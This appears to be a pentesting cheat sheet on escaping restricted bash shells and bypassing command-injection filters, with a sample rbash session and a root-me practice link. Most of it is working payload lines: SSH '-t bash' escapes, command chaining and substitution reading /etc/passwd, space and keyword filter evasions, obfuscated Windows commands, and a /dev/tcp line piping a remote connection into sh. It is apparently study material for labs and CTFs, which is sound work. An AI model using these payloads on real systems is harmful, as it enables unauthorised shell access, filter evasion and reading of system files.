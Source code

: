 ```yaml
---
description: Bypass restricted shells
---
```


# Restricted shells

## Example for restricted shell

```text
root@Desktop: ~ #ssh -6 user@fe80::XXXXX:2c74%wlan0 
user@fe80::XXXXX:2c74%wlan0 's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.15.0-34-generic x86_64) 
Documentation:  https://help.ubuntu.com 
Management:     https://landscape.canonical.com 
Support:        https://ubuntu.com/advantage 
Last login: Fri Jul 12 14:15:45 2019 from fe80::XXXXX:2c74%wlan0  
jail@HOST:~$ -rbash: /dev/null: restricted: cannot redirect output 
bash: _upvars: -a0': invalid number specifier  
-rbash: /dev/null: restricted: cannot redirect output  
bash: _upvars: -a0': invalid number specifier 
-rbash: /dev/null: restricted: cannot redirect output 
bash: _upvars: -a0': invalid number specifier  
-rbash: /dev/null: restricted: cannot redirect output  
bash: _upvars: -a0': invalid number specifier 
     
user@HOST:~$ vim 
-rbash: /usr/lib/command-not-found: restricted: cannot specify /' in command names  
jail@HOST:~$ exit 
logout  
-rbash: /usr/bin/clear_console: restricted: cannot specify /' in command names 
Connection to fe80::XXXXX:2c74%wlan0  closed. 
 
```

First: 

1. Check 'echo $PATH' 
2. Ls  to check what command in the $path \(ls -l /home/student/.bin\) 
3. Fix path  export PATH=/bin:/usr/bin 

**Enumeration Linux Environment Enumeration is the most important part**. We need to enumeration the Linux environmental to check what we can do to bypass the rbash. 

We need to enumerate :  

1. First we must to check for available commands like cd/ls/echo etc.  
2. We must to check for operators like &gt;,&gt;&gt;,&lt;,\|.  
3. We need to check for available programming languages like perl,ruby,python etc.  
4. Which commands we can run as root \(sudo -l\).  
5. Check for files or commands with SUID perm.  
6. You must to check in what shell you are : echo $SHELL you will be in rbash by 90%  
7. Check for the Environmental Variables : run env or printenv Now let’s move into Common Exploitation Techniques. 

### Practice

Practice restricted shell escape: [https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)



## SSH

`ssh user@192.168.0.53 -t bash` 

Or 

`ssh user@192.168.0.53 -t /bin/bash` 

Or

`ssh user@192.168.0.53 -t "bash --noprofile"`

## Add Path

`export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

## Chaining commands 

```text
original_cmd_by_server; ls 
original_cmd_by_server && ls 
original_cmd_by_server | ls 
original_cmd_by_server || ls    Only if the first cmd fail 
```

## Inside a command 

```text
original_cmd_by_server `cat /etc/passwd` 
original_cmd_by_server $(cat /etc/passwd)
```

## Filter Bypasses 

### Bypass without space 

Works on Linux only. 

`cat</etc/passwd` 

`{cat,/etc/passwd}` 

`cat$IFS/etc/passwd` 

`echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd` 

`X=$'uname\x20-a'&&$X` 

`sh</dev/tcp/127.0.0.1/4242` 

### Commands execution without spaces, $ or { } - Linux \(Bash only\) 

``IFS=,;`cat<<<uname,-a``

Works on Windows only. 

`ping%CommonProgramFiles:~10,-18%IP` 

`ping%PROGRAMFILES:~10,-5%IP` 

### Bypass with a line return 

`something%0Acat%20/etc/passwd` 

### Bypass Blacklisted words 

**Bypass with single quote** 

`w'h'o'am'i` 

**Bypass with double quote** 

`w"h"o"am"i` 

**Bypass with backslash and slash** 

`w\ho\am\i` 

`/\b\i\n/////s\h` 

**Bypass with $@** 

`who$@ami` 

echo $0 

-&gt; /usr/bin/zsh 

echo whoami\|$0 

**Bypass with variable expansion** 

`/???/??t /???/p??s??` 

test=/ehhh/hmtc/pahhh/hmsswd 

cat ${test//hhh\/hm/} 

cat ${test//hh??hm/} 

**Bypass with wildcards** 

`powershell C:\*\*2\n??e*d.*? # notepad` 

`@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc` 

